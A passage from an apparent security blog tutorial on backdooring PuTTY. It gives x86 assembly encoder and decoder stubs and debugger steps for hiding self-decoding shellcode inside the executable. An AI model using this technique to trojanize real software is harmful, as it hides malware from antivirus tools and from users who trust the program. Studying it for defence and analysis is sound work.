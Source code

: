 And the decoder should be the instructions in reverse order:

1. Rotate right 8 bits.

2. Bit-wise negate byte.

3. Sub `0x2` to byte.

4. `XOR` byte with key `0xD`.

**decoder.**

``` x86asm
ror byte [eax],0x8
not byte [eax]
sub byte [eax],0x2
xor byte [eax],0xd
```

The encoder should be used only once, to mutate the file. Then, when the
encoded shellcode is in place, the decoder should be finally inserted so
it can self-decode on memory every time it’s launched.

The full stub we are going to insert is:

``` x86asm
mov eax,<address where shellcode starts>    ; Make EAX a pointer to our shellcode
loop:                                       ; Loop starts here
<encoder or decoder>                        ; The encoder or decoder instructions
inc eax                                     ; Points EAX to the next byte of the shellcode
cmp eax,<address where shellcode ends>      ; Compare if EAX is pointing to the end of the shellcode
jne loop                                    ; If not, jump to the loop until we reach the end
```

### Encoding

Let’s encode the shellcode first:

<div class="imgblock">

![Encoder](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330661/blog/backdooring-putty/encoder1_fk2gug.webp)

</div>

Save that changes to a file called `putty-06.exe`.

Now, we can watch the process of encoding in real-time:

<div class="imgblock">

![Encoder](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330662/blog/backdooring-putty/encoded1_ewvqb2.gif)

</div>

Wonderful. Now, select those modified bytes, then right-click, then
`Binary`, then `Copy`. Restart the debugging session with `Ctrl+F2` and
go to that address region again and hit `Shift+V` to binary paste.
